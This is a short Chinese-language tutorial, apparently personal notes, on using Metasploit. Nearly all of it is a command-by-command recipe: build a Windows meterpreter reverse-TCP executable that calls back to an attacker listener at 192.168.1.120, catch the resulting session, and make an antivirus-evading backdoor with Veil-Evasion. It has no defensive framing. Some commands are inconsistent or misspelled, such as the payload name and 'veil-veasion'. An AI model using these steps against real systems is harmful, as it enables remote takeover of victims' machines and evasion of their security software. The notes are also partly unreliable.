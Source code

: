 ```yaml
---
title: msf 初体验
tags: metasploit
---
```

# msf简单使用：(以windows/meterpreter/reverse_tcp为例)

## 1.payload设置：

新开终端
`msfvenom -l`
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=4444 -f exe -o /root/桌面/1.exe //生成exe文件`

## 2.监听：

进入metasploit
`use exploit/multi/handler`
`show options`

## 3.插入攻击荷载

show payloads
`set payload windows/meterpreter_reverse_tcp`
再次show options(出现LHOST和LPORT选项)
`set lhost 192.168.1.120`
`set lport 4444`

## 4.使用run 或者 exploit 启动攻击

等待被攻击主机中招，即可拿到session
使用jobs停止攻击
`sessions -l  //获取session列表`
`sessions -i 1 //进入meterpreter`

==============================
# PS:

## 使用veil-veasion生成后门：
打开终端
`veil-veasion`
`list`
`use 6 //以c为例`

生成的后台地址：
`/var/lib/veil-evasion/output/compiled/payload.exe`

在msf中使用：
`msfconsole -r /var/lib/veil-evasion/output/handlers/payload_handler.rc`
